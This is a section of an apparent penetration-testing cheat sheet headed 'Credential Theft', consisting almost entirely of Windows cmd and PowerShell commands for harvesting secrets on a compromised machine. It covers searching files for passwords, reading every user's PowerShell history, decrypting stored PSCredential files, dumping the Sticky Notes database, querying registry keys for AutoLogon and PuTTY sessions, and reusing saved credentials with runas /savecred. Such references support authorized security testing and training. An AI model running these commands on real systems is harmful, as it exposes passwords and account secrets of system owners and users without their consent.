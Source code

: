 ## 5. Credential Theft

### Credential Hunting

#### File System Search
```cmd
# Search for password in files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*

# PowerShell search
select-string -Path C:\Users\<user>\Documents\*.txt -Pattern password

# File extensions
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

#### PowerShell History
```powershell
# Get PowerShell history path
(Get-PSReadLineOption).HistorySavePath

# Read history
gc (Get-PSReadLineOption).HistorySavePath

# Check all users' history
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

#### PowerShell Credentials
```powershell
# Decrypt stored credentials
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
```

#### Sticky Notes
```powershell
# Extract Sticky Notes database
Set-ExecutionPolicy Bypass -Scope Process
cd .\PSSQLite\
Import-Module .\PSSQLite.psd1
$db = 'C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```

### Registry Credential Storage
```cmd
# Windows AutoLogon
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# Putty sessions
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions

# Saved credentials
cmdkey /list

# Run as saved user
runas /savecred /user:<domain>\<user> "command"
```